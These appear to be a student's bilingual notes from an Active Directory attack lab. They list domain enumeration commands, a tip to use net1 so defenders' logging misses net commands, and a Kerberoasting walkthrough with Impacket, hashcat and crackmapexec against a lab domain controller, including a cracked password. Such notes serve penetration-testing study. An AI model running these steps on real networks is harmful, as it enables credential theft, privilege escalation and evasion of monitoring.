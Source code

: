 > If you believe the network defenders are actively logging/looking for any commands out of the normal, you can try this workaround to using net commands. Typing net1 instead of net will execute the same functions without the potential trigger from the net string.

```
net user # Usuarios locales
net user /domain # Usuarios del dominio
net group /domain	#Information about domain groups 
net localgroup # los grupos locales
```

Algunos comandos que utilice para responder las preguntas

```
Get-ADUser -Filter {Enabled -eq $false} | select SamAccountName # Usuarios deshabilitados
net user /domain bross
Get-MpComputerStatus # se usa para ver Gets the status of antimalware software on the computer. Se saca la version 
(AMProductVersion                : 4.18.2109.6)
Get-ADComputer -Identity "ACADEMY-EA-MS01" -Properties * # Enumera todo sobre la computadora
```

## Kerberoasting - from Linux

Our enumeration up to this point has given us a broad picture of the domain and potential issues. We have enumerated user accounts and can see that some are configured with Service Principal Names. Let's see how we can leverage this to move laterally and escalate privileges in the target domain.

> This attack targets Service Principal Names (SPN) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running.


Para resumir este ataque se basa en identificar los SPN ( service principal names. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running). Obtienes el hash de tipo TGS-REP y procedes a intentar crackearlos aveces esas cuentas son  priviligeadas o pertenecen a grupos priviligeados.

```
GetUserSPNs.py (Impacket)
### List all SPN

GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend

### Request all the tickets

GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request

### Target a single ticket and save the output

GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile hash_output.txt

### Crack Hashcat

hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt

### Testing Authentication against a Domain Controller

sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!

```
